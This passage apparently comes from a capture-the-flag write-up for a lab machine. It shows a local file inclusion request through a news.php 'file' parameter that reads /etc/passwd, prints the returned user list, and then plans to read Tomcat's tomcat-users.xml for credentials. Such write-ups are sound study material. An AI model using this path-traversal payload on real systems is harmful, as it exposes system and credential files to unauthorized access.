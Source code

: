## 6 - LFI'ing this
lets try...
```
http://10.10.10.194/news.php?file=../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin 
syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin 
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false 
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin 
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin 
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin 
pollinate:x:110:1::/var/cache/pollinate:/bin/false 
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin 
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin 
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false 
tomcat:x:997:997::/opt/tomcat:/bin/false 
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false 
ash:x:1000:1000:clive:/home/ash:/bin/bash 
```


From the initial page in port 8080, we have some information 

```
install folder (for the message): /var/lib/tomcat9/webapps/ROOT/index.html
CATALINA_HOME: /usr/share/tomcat9
CATALINA_BASE: /var/lib/tomcat9
From docs: users at $CATALINA_BASE/conf/tomcat-users.xml (DEFAULT)

Lets try: /var/lib/tomcat9/conf/tomcat-users.xml (nothing)
Lets try with catalina_HOME: /usr/share/tomcat9/conf/tomcat-users.xml
```
